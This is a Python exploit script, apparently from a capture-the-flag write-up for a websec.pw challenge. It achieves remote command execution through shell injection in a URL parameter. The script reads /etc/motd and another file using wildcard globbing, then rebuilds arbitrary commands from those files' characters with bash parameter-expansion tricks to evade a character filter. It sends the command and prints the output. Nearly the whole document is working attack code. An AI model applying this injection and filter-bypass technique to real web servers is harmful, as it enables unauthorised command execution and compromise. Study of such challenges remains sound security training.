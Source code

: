{% highlight python %}
{% raw %}
import requests
import sys

motd = requests.get("http://www.websec.pw:9090/index.php?f=;cat /?tc/??t?").content
index = requests.get("http://www.websec.pw:9090/index.php?f=;cat ?????.???").content
initial = "http://www.websec.pw:9090/index.php?f=;act=`cat ?????.???`;c=`cat /?tc/??t?`;"
cache = {}

def main():
	command = sys.argv[1]
	body = ""
	execution = ""
	counter = 0
	for letter in command:
		if letter.isdigit():
			counter += 1
			num = int(letter)
			if num == 0:
				body += "{}=\"${{%23}}\";".format(counter*"c")
			else:
				body += "{}=\"$(({}))\";".format(counter*"c", "%2b".join(["${%23%23}"]*num))
			execution += "$" + counter * "c"
			continue
        # A little ugly but you will understand it in `Regex Hero 2`.
		if letter == "P":
			idx1 = index.find(letter)	
			idx2 = len(index) - idx1 - 2
			body += "{}=\"${{{}%23{}}}\";".format("actt", "act", idx1 * "?")
			body += "{}=\"${{{}%25{}}}\";".format("acttt", "actt", idx2 * "?")
			execution += "$acttt"
			continue
		idx1 = motd.find(letter)
		if idx1 == -1:
			print("cannot find {}".format(letter))
			return
		idx2 = len(motd) - idx1 - 2
		if letter not in cache:
			counter += 1
			body += "{}=\"${{{}%23{}}}\";".format(counter*"t", "c", idx1 * "?")
			body += "{}=\"${{{}%25{}}}\";".format(counter*"a", counter * "t", idx2 * "?")
			execution += "$" + counter * "a"
			cache[letter] = "$" + counter * "a"
		else:
			execution += cache[letter]

	# Run
	print "Command Output: {}".format(requests.get(initial + body + execution).content)

if __name__ == "__main__":
	main()
{% endraw %}
{% endhighlight %}
